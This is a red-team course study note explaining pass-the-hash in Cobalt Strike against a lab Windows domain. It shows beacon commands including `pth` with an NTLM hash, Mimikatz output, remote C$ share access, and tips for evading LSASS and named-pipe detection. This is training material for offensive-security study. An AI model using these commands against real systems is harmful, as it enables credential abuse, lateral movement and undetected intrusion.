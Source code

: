 
Pass the hash is a technique that allows you to authenticate to a Windows service using the NTLM hash of a user's password. This means you get to log in or impersonate another user in your local beacon session.  

It works by starting a new logon session with a fake identity and then replacing the session information with the domain, username and NTLM hash provided.

## 🖊️ via [[Cobalt Strike]]

Beacon has a dedicated `pth` command which executes Mimikatz in the background. It requires elevated privileges.
(check [[Manual PTH]] to avoid detection )

1) Lets say you are currently a local admin but not a domain admin and want to list the contents of an external C drive.

```
beacon> getuid
[*] You are DEV\bfarmer (admin)

beacon> ls \\web.dev.cyberbotic.io\c$
[-] could not open \\web.dev.cyberbotic.io\c$\*: 5 - ERROR_ACCESS_DENIED
```

2) You won't be able to. Now, using [[Pass the Hash]] you can impersonate another user (which you collected its [[NetNTLM]] hash).

```
beacon> pth DEV\jking 59fc0f884922b4ce376051134c71e22c
user	: jking
domain	: DEV
program	: C:\Windows\system32\cmd.exe /c echo 71fb38e2d65 > \\.\pipe\675b08
impers.	: no
NTLM	: 59fc0f884922b4ce376051134c71e22c
  |  PID  1932
  |  TID  6600
  |  LSA Process is now R/W
  |  LUID 0 ; 7479840 (00000000:00722220)
  \_ msv1_0   - data copy @ 000001F6344B3D20 : OK !
  \_ kerberos - data copy @ 000001F6345BD7C8
   \_ aes256_hmac       -> null             
   \_ aes128_hmac       -> null             
   \_ rc4_hmac_nt       OK
   \_ rc4_hmac_old      OK
   \_ rc4_md4           OK
   \_ rc4_hmac_nt_exp   OK
   \_ rc4_hmac_old_exp  OK
   \_ *Password replace @ 000001F6344C6128 (32) -> null
```

3) Now you are impersonating (in the same beacon session) another user with other privileges. In this example we get to list the contents since we have jking privs

```
beacon> ls \\web.dev.cyberbotic.io\c$
[*] Listing: \\web.dev.cyberbotic.io\c$\

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     08/15/2022 18:50:13   $Recycle.Bin
          dir     08/10/2022 04:55:17   $WinREAgent
          dir     08/10/2022 05:05:53   Boot
```

4) To "drop" impersonation afterwards, use the `rev2self` command.
```
beacon> rev2self
[*] Tasked beacon to revert token
```


### ⚠ Opsec

Two opportunities to detect PTH are the R/W handle to LSASS; and looking for the `echo foo > \\.\pipe\bar` pattern in command-line logs.
You can avoid detection running PTH manually: [[Manual PTH]]


### Properties
---
📆 created   {{11-02-2024}} 20:21
🏷️ tags: #redteam #crto 

---

